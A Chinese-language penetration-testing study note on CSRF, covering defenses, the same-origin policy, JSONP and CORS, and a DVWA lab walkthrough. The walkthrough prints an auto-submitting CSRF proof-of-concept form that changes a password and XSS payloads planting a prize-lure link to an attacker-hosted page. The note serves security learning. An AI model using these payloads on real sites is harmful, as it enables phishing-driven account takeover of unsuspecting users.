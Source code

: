 ```yaml
---
title: CSRF
index: true
icon: r
isOriginal : true
date: 2023-03-25
order: 7
category:
  - 渗透测试
tag:
  - 渗透测试
  - CSRF
---
```

跨站请求伪造(Cross-site request forgery,CSRF)是一种攻击，它强制终端用户在当前对其进行\<span data-type\="text" style\="color: var(--b3-font-color9);"\>身份验证后的Web应用程序
上执行非本意的操作\<span\>。CSRF攻击的着重点在伪造更改状态的请求，而不是盗取数据，因为攻击者无法查看对伪造请求的响应

### CSRF漏洞的原理

(用DVWA举例)

1. `47.113.187.190:36974/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change`这个网站在用户修改个人的信息时没有过多的校验，导致这个请求容易被伪造。
2. 目的：我们可以伪造请求，修改他人信息

    条件：<span data-type="text" style="color: var(--b3-font-color9);">1.对方也登陆的该网站  2.对方点击了链接触发修改信息的伪请求</span>（二者缺一不可）

![image](assets/image-20240918223718-rpe8m6l.png)

### 防御措施

防止这些操作出现被伪造的情况，从而导致CSRF。

0. 验证<span data-type="text" style="color: var(--b3-font-color9);">Referer</span>，如果Referer是其他网站的话，就可能是CSRF攻击。检测绕过：referer头留空
1. 对敏感信息的操作增加安全的<span data-type="text" style="color: var(--b3-font-color9);">token</span>，可以在HTTP请求中参数形式加入一个随机token，并在服务器端建立拦截器验证token。
2. 对敏感信息的操作前增加<span data-type="text" style="color: var(--b3-font-color9);">二次验证</span>；
3. 及时退出网站，不随意点击链接/图片。

### 把token放置在cookiet中，能否防护csrf

不能，csrf冒用cookie,放置在cookie中直接被利用

### CSRF需不需要获取cookie

不需要，cookie是存储在浏览器内，不需要获取cookie,本质是在冒用用户cookie

### CSRF与XSS的区别

1. XSS攻击的是客户端，CSRF攻击的是服务端
2. XSS主要是获取身份信息cookie.csrf是冒用用户身份，不获取cookie
3. XSS是将语句插入html页面中，盗取到了用户的权限，然后实施破坏。
4. CSRF是冒用用户身份，借用户的权限完成攻击，攻击者并没有拿到用户的权限。
5. CSRF危害更大，防御难度比XSS高

### 同源策略

如果两个页面的<span data-type="text" style="color: var(--b3-font-color9);">协议</span>，<span data-type="text" style="color: var(--b3-font-color9);">端口</span>（如果有指定）和<span data-type="text" style="color: var(--b3-font-color9);">域名</span>都相同，则两个页面具有相同的源；是浏览器用于隔离潜在恶意文件的重要安全机制。不同源的客户端脚本在没有明确授权的情况下，不能读写对方资源。

#### 受约束对象

DOM、Cookie、第三方插件、XMLHttpRequest

#### 不受约束对象

```bash
页面中的链接\<a href\="\">、重定向、表单action:\=””，提交是不会受到同源策略限制的。
跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的\<script\>,\<img\>,\<link\>,\<iframe\>等带src属性的标签。
```

#### 非同源受到的限制

Cookie、LocalStorage、IndexDB无法读取、DOM无法获得、AJAX请求不能发送

### 跨域

受同源策略的影响，<span data-type="text" style="color: var(--b3-font-color9);">不是同源的脚本不能操作其他源下面的对象</span>。想要操作另一个源下的对象是就需要跨域，把<span data-type="text" style="color: var(--b3-font-color9);">不同域之间请求数据的操作，称为跨域</span>。

### 跨域方法

#### document.domain跨域

若两个页面一级域名相同，只是二级域名不同，那么<span data-type="text" style="color: var(--b3-font-color9);">浏览器可以通过设置document.domain来共享Cookie</span>

**注意**

1.只能在<span data-type="text" style="color: var(--b3-font-color9);">父域名与子域名</span>之间使用
2.存在安全性问题，当一个站点被攻击后，另一个站点会引起安全漏洞
3.只适用于Cookie和iframe窗口。

#### JSONP跨域

利用\<script\>的src不受同源策略约束实现跨域获取数据。
Jsonp(JSON with Padding)是json的一种"<span data-type="text" style="color: var(--b3-font-color9);">使用模式</span>"，可以让网页从<span data-type="text" style="color: var(--b3-font-color9);">别的域名（网站）那获取资料</span>，即跨域读取数据。

**注意**

1.存在安全性问题，需要网站双方商议基础token的身份验证
2.只能是GET,不能POST
3.可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题。

#### CORS跨域

<span data-type="text" style="color: var(--b3-font-color9);">CORS全称Cross-Origin Resource Sharing</span>,跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的
jsonp只能get请求。CORS允许浏览器向跨域服务器发出XMLHttpRequest请求。如果

利用JavaScript无法控制HTTP头的特点，通过目标返回的HTTP头授权是否允许跨域访问。

Access-Control-Allow-Origin:a.baidu.com #b.baidu.com可以访问我的资源

Access-Control-Allow-Origin:null   #谁都可以访问 有的浏览器不支持这样写

Access-Control-Allow-Origin:\*       #谁都可以访问

```php
a.com想得到b.com中的内容，在b.com里面添加响应头声明允许a.com的访问
添加：Access-Control-Alow-Origin:http:/a.com然后a.com就可以用ajax获取b.com里的数据了
```

#### 跨域利用

1. 同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。
2. 跨站请求，获取cookie
3.  请求攻击服务器的恶意js等代码

### DVWA中**利用XSS漏洞和csrf漏洞修改密码**

1. 登陆DVWA靶场

    目前账号密码为：admin/password
2. 攻击者通过CSRF模块抓包

    ![image](assets/image-20240918183204-hijttk5.png)
3. 攻击者提取到的修改密码的包

    ```php
    GET /vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change HTTP/1.1
    Host: 47.113.187.190:36974
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Referer: http://47.113.187.190:36974/vulnerabilities/csrf/
    Cookie: PHPSESSID=9sn4v5t9pr06kaqlmpmhetkds4; security=low
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

    ```

4. 攻击者伪造该包

    ```php
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="http://47.113.187.190:51594/vulnerabilities/csrf/">
          <input type="hidden" name="password&#95;new" value="123456" />
          <input type="hidden" name="password&#95;conf" value="123456" />
          <input type="hidden" name="Change" value="Change" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

    ![image](assets/image-20240918183504-s3wqdpx.png)

5. 其次我们在XSS模块注入用户触发改密码的a标签

    ```php
    payload：</div><a href="http://burpsuite/show/4/mzeu3hmxur1v9r0m4mf44md8qglhej5n">点击中大奖</a><div>
    ```

    ![image](assets/image-20240918194256-pw9oock.png)
6. 当用户点击该链接，用户密码就会被修改

    ![image](assets/image-20240918193516-gnomibr.png)

    ![image](assets/image-20240918193748-gcc3yig.png)
7. 刚才是请求bp代理的服务，如果将链接放到公网，只要用户点击会被改密

    ![image](assets/image-20240918202104-jjuzwk1.png)

    ```php
    payload：</div><a href="http://47.113.187.190:90/dvwa_csrf+xss.html">点击中大奖</a><div>
    ```